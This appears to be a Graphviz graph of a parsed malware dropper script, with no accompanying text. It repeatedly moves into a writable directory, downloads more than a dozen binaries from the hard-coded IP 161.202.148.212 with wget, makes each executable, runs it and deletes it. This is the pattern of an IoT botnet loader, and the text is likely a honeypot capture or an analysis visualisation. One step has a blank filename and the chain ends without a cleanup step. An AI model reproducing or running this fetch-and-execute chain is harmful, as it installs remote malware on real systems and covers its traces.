 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://161.202.148.212/ajalungka "];
10 -> 12 [label=";,"];
12 [label="chmod +x ajalungka "];
12 -> 14 [label=";,"];
14 [label="./ajalungka "];
14 -> 16 [label=";,"];
16 [label="rm -rf ajalungka "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://161.202.148.212/ajamango "];
28 -> 30 [label=";,"];
30 [label="chmod +x ajamango "];
30 -> 32 [label=";,"];
32 [label="./ajamango "];
32 -> 34 [label=";,"];
34 [label="rm -rf ajamango "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://161.202.148.212/ajaopenggl "];
46 -> 48 [label=";,"];
48 [label="chmod +x ajaopenggl "];
48 -> 50 [label=";,"];
50 [label="./ajaopenggl "];
50 -> 52 [label=";,"];
52 [label="rm -rf ajaopenggl "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://161.202.148.212/ajavast "];
64 -> 66 [label=";,"];
66 [label="chmod +x ajavast "];
66 -> 68 [label=";,"];
68 [label="./ajavast "];
68 -> 70 [label=";,"];
70 [label="rm -rf ajavast "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://161.202.148.212/ajagreyps "];
82 -> 84 [label=";,"];
84 [label="chmod +x ajagreyps "];
84 -> 86 [label=";,"];
86 [label="./ajagreyps "];
86 -> 88 [label=";,"];
88 [label="rm -rf ajagreyps "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://161.202.148.212/ajakuhamo "];
100 -> 102 [label=";,"];
102 [label="chmod +x ajakuhamo "];
102 -> 104 [label=";,"];
104 [label="./ajakuhamo "];
104 -> 106 [label=";,"];
106 [label="rm -rf ajakuhamo "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://161.202.148.212/ajamarco "];
118 -> 120 [label=";,"];
120 [label="chmod +x ajamarco "];
120 -> 122 [label=";,"];
122 [label="./ajamarco "];
122 -> 124 [label=";,"];
124 [label="rm -rf ajamarco "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://161.202.148.212/ajachikos "];
136 -> 138 [label=";,"];
138 [label="chmod +x ajachikos "];
138 -> 140 [label=";,"];
140 [label="./ajachikos "];
140 -> 142 [label=";,"];
142 [label="rm -rf ajachikos "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://161.202.148.212/ajapchikos "];
154 -> 156 [label=";,"];
156 [label="chmod +x ajapchikos "];
156 -> 158 [label=";,"];
158 [label="./ajapchikos "];
158 -> 160 [label=";,"];
160 [label="rm -rf ajapchikos "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://161.202.148.212/ajacos "];
172 -> 174 [label=";,"];
174 [label="chmod +x ajacos "];
174 -> 176 [label=";,"];
176 [label="./ajacos "];
176 -> 178 [label=";,"];
178 [label="rm -rf ajacos "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://161.202.148.212/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://161.202.148.212/ajafacebook3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x ajafacebook3 "];
210 -> 212 [label=";,"];
212 [label="./ajafacebook3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf ajafacebook3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://161.202.148.212/ajanetdelds "];
226 -> 228 [label=";,"];
228 [label="chmod +x ajanetdelds "];
228 -> 230 [label=";,"];
230 [label="./ajanetdelds "];
230 -> 231 [label=";,"];
}
